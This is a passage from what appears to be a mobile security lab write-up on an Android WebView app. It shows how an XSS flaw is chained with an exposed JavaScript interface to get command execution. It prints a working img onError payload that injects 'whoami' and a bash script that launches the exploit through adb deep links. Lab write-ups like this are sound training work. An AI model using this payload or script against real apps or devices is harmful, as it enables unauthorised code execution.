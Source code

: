 ```java
                    }
                    output.append(it).append("\n");
                }
            } catch (Exception e) {
                e.printStackTrace();
                return "cowsay: " + e.getMessage();
            }
        }
```
### Explointg  The application

Since `postCowsayMessage` is within `WebAppInterface` and we have an XSS vulnerability, we can achieve RCE through XSS. We just need to adapt our payload to call this function. Thus, our payload becomes `rce <img src=x onError=window.WebAppInterface.postCowsayMessage('rce;whoami') />`.

As we observed that `MainActivity` is exported, we can start it using the activity manager and pass our message. To simplify the process of encoding our payload, we create a script to automatically base64 encode the payload and start the application with it to obtain remote code execution.

```bash
#exploit.sh
payload="rce<img src=x onError=window.WebAppInterface.postCowsayMessage('rce;whoami') />"

base64_text=$(echo -n "$payload" | base64 -w 0)
uri="postboard://postmessage/$base64_text"

adb shell am start -a android.intent.action.VIEW -d "$uri"
adb shell am start -a android.intent.action.VIEW -d "postboard://postmessage/force_update"
``` 

All that's left is to run the script and witness the code execution on the mobile device.

### Conclusion

This lab provides us with the opportunity to understand how WebViews work in Android and how they can be vulnerable to various types of flaws that, when combined, can lead to remote code execution. It's undoubtedly one of the best labs on WebViews. Visit the lab at [MobileHackingLab - Post Board](https://www.mobilehackinglab.com/course/lab-postboard) and embark on a journey of discovery to enhance your skills in mobile security.